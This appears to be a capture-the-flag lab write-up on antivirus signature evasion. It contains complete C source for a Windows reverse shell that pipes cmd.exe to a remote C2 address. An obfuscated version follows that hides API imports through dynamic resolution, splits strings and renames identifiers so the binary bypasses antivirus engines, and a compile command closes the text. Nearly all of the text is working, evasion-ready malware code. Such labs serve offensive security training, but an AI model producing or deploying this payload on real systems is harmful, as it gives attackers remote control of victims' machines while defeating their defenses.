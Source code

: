 # Real world challenge

No one method will be 100% effective or reliable. To create a more effective and reliable methodology, combine 
the methods.

* When determining in what order to begin obfuscation, consider the impact of each method. For example, is it easier 
to obfuscate an already broken class or is it easier to break a class that is obfuscated?
* In general, run automated obfuscation or less specific obfuscation methods after specific signature breaking.

## Lab

```text
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

Modify the binary to meet these specifications:

* No suspicious library calls present
* No leaked function or variable names
* File hash is different from the original hash
* Binary bypasses common anti-virus engines

It is also essential to change the C2Server and C2Port variables in the provided payload or this challenge will not 
properly work, and you will not receive a shell back. 

## Obfuscation order

* Rewrite `int WSAAPI WSAConnect` to meet the requirements of a structure definition.
  * Import the `LoadLibraryW` library the calls are stored in.
  * Obtain the pointer to the address.
  * Change all occurrences of the API call with the new pointer.
* Define all pointer addresses needed, corresponding to the structures.
* The structure definitions outside any function at the beginning of the code. 
* The pointer definitions at the top of the `RunShell` function

## Obfuscated code

```text
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024


typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
typedef u_short(WSAAPI* HTONS)(u_short hostshort);
typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
typedef int(WSAAPI* WSACLEANUP)(void);

void Run(char* Server, int Port) {

HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup");

        SOCKET s12;
        struct sockaddr_in addr;
        WSADATA version;
        myWSAStartup(MAKEWORD(2,2), &version);
        s12 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = myinet_addr(Server);
        addr.sin_port = myhtons(Port);

        if (myWSAConnect(s12, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            myclosesocket(s12);
            myWSACleanup();
        } else {


            char P1[] = "cm";
            char P2[] = "d.exe";
            char* P = strcat(P1, P2);

            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) s12;
            CreateProcess(NULL, P, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);


            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        Run(argv[1], port);
    }
    else {
        char host[] = "10.10.50.26";
        int port = 1234;
        Run(host, port);
    }
    return 0;
}
```

Compile the binary using `mingw-gcc`.

    x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32 

And flag!